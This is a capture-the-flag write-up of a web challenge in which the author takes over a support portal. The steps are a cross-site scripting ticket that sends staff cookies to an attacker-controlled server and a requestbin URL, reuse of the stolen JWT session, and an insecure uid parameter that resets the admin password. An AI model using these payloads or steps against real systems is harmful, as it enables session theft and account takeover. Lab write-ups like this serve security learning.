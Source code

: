 ```yaml
---
layout: default
title: Kryptos Support
---
```


# [Cyber Apocalypse](index.md) - Web - Kryptos Support
*I did not have the foresight to save screenshots or the challenge description while the CTF was active*.

This challenge is a support portal for some kind of vault. The landing page allows the user to enter text in a box and submit this as a ticket for an admin to review. There was no authentication on this page. 

There was a link to the **backend**, which led to a login page.

The login form was not susceptible to a simple SQL injection, so I looked elsewhere.

Using **gobuster** to do a quick scan of the website for different pages and/or API endpoints. I found the following:

```
/admin
/settings
/tickets
/logout
/login
/static
```
`/admin`, `/settings`, and `/tickets` redirected to the login page.

The ticket submit form worked, and when submitting a ticket the page displayed a message indicating that support staff would look at it. 

I noted that the ticket data was submitted to `/api/tickets/add`, so I did some exploring looking for other API endpoints (just manually with Firefox) and did not find much. The login form used `/api/login`, but I was not able to view tickets or logins.

The ticket form did not appear to sanitize it's input, so I decided to try stealing the support staff's cookies with a cross-site scripting attack. A quick google search gave me some example XSS cookie stealing code, which I modified for my own use.

I set up a simple web server on a VM with python, using the following commands:

```
mkdir emptyfolder
cd emptyfolder
python3 -m http.server 1337
```
Then I submitted this javascript code in a ticket, and waited for the response. 

```javscript
<script>var i=new Image;i.src="https://my-ip-address-was-here:1337/?"+document.cookie;</script>
```
The URL of the request contained the cookie information, so I was able to simply copy and paste this from my console window.

Later, I discovered [Requestbin](https://requestbin.io) which would have made this a bit easier, and wouldn't as easily reveal my own IP address.

```javscript
<script>var i=new Image;i.src="https://requestbin.io/10270d22/?"+document.cookie;</script>
```

The cookie data was:
```
session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Im1vZGVyYXRvciIsInVpZCI6MTAwLCJpYXQiOjE2NTI2MjgwNDR9.zewYLE5ZOkKHzHJlTA0eGrasx6-31UL5Jo9mhMH5RnE
```

I noted that the session value was a JWT that can be decoded - each section, separated by periods, is just base64 encoded.
```json
{"alg":"HS256","typ":"JWT"}
```
```json
{"username":"moderator","uid":100,"iat":1652628044}
```
*The last section is not legible, it's a signature for the above data*

I noted that the user was named `moderator` and had a `uid` of `100`.

The JWT's signature wouldn't be valid if I modified the uid or username, so I can't easily exploit those at this point.

In Firefox, I created a cookie named `session` with the value `eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Im1vZGVyYXRvciIsInVpZCI6MTAwLCJpYXQiOjE2NTI2MjgwNDR9.zewYLE5ZOkKHzHJlTA0eGrasx6-31UL5Jo9mhMH5RnE`

In my exploration above, I had found `/tickets`, so with my new cookie I visited that page and was able to view the submitted tickets.

There were two tickets previously submitted which contained some numbers (`000083921` and `000076439`) which I noted for later (but never ended up using). The tickets did not contain names or usernames, so I was not able to get much info from them.

There was a **settings** link, which went to a page that allowed me to change the password of the currently logged in user. Trying this, I was able to reset the password of the **moderator** account. In a "real" engagement, this would make it pretty obvious that the system was compromised, considering the moderator user had just viewed my ticket and was presumably actively using the system, and would notice very quickly that their password had changed to something that they did not know. Luckily, the "moderator" user was just a script because this is just a challenge system, and wouldn't notice a thing.

Using Firefox developer tools, I noticed that changing the password sent a request to the api endpoint `/api/users/update` with the following payload:

```json
{
	"password" : "abc123",
	"uid" : "100"
}
```

Unlike the cookie, there is no cryptographic signature here, so I tried changing the `uid` value to `1`. I figured that in most cases, the admin account will be the first account in the database, so probably would have an ID of 1. I used [Insomnia](https://insomnia.rest/) to send this payload, but I later discovered that Firefox developer tools allow you to edit and re-submit the request, and I could have just used that.

```json
{
	"password" : "abc123",
	"uid" : "1"
}
```
The response from the API was "Password for admin changed successfully", which gave me the admin username.

The "moderator" account clearly had permissions to reset passwords, but the system allowed it to reset *any* user's password, including the admin. Some security probably should have been in place to prevent a user with password reset privileges from resetting passwords of anyone else at the same or higher security levels, or something like that.

Logging out of the moderator account, and into the admin account using `admin` and the password I set granted me access, and displayed the flag.